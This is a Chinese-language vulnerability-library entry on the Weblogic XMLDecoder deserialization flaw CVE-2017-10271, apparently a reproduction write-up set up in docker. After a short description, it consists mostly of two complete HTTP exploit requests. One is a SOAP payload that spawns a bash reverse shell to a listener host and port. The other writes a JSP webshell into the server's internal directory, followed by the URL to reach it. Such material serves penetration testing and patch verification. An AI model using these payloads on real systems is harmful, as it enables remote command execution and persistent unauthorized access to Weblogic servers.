 ```yaml
---
author: YOUZAI
title: Weblogic XMLDecoder 反序列化漏洞（CVE-2017-10271）
date: 2023/06/20
categories:
 - 漏洞文库
tags:
 - Weblogic
---
```


## 漏洞简介

Weblogic 的 WLS Security 组件对外提供 webservice 服务，其中使用了 XMLDecoder 来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

::: info 影响版本

- [x] Weblogic < 10.3.6

:::

## 漏洞复现

使用 docker 搭建环境：

![](/images/微信图片_20220908101819.png)

发送如下数据包（注意其中反弹 shell 的语句，需要进行编码，否则解析 XML 的时候将出现格式错误）：

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.43.127:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: text/xml
Content-Length: 639

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.43.127/4444 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

![](/images/微信图片_20220908102405.png)

成功获取反弹的 shell：

![](/images/微信图片_20220908102458.png)

写入 webshell：

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.43.127:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter">
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("shell"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问网址：http://xx.xx.xx.xx:7001/bea_wls_internal/test.jsp

![](/images/微信图片_20220908110047.png)